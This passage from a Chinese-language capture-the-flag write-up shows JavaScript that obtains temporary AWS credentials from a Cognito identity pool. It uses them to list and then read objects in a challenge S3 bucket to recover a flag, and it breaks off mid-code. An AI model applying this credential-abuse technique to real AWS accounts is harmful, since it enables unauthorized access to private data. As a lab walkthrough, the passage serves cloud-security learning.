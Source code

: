 ```html
                var accessKeyId = AWS.config.credentials.accessKeyId;
                var secretAccessKey = AWS.config.credentials.secretAccessKey;
                var sessionToken = AWS.config.credentials.sessionToken;

                // 进行后续操作，如访问S3
                accessS3(accessKeyId, secretAccessKey, sessionToken);
            } else {
                // 凭证获取失败
                console.error('Error retrieving credentials: ' + err);
            }
        });
        // 使用临时凭证访问S3
        function accessS3(accessKeyId, secretAccessKey, sessionToken) {
            var s3 = new AWS.S3({
                accessKeyId: accessKeyId,
                secretAccessKey: secretAccessKey,
                sessionToken: sessionToken,
            });
            var params = {
                Bucket: 'wiz-privatefiles',
            };
            s3.getSignedUrl('listObjectsV2', params, function(err, data) {
                if (!err) {
                    // S3存储桶列表获取成功
                    console.log(data);
                } else {
                    // S3存储桶列表获取失败
                    console.error('Error listing S3 buckets: ' + err);
                }
            });
        }
    </script>
</body>
</html>
```

使用浏览器打开这个 HTML 文件，在 Console 中可以看到输出了一行地址。

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/202307091316813.png)

访问它，就可以看到存储桶里的对象被列出了。

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/202307091316122.png)

这里可以得知 FLAG 的 Key 是 flag1.txt，然后把代码修改下，改成读这个对象。

```html
<!DOCTYPE html>
<html>
<head>
    <title>Cognito JavaScript SDK Example</title>
    <script src="https://sdk.amazonaws.com/js/aws-sdk-2.100.0.min.js"></script>
</head>
<body>
    <script>
        // 初始化AWS SDK配置
        AWS.config.region = 'us-east-1';
        AWS.config.credentials = new AWS.CognitoIdentityCredentials({
            IdentityPoolId: 'us-east-1:b73cb2d2-0d00-4e77-8e80-f99d9c13da3b',
        });
        // 获取临时凭证
        AWS.config.credentials.get(function(err) {
            if (!err) {
                // 凭证获取成功
                var accessKeyId = AWS.config.credentials.accessKeyId;
```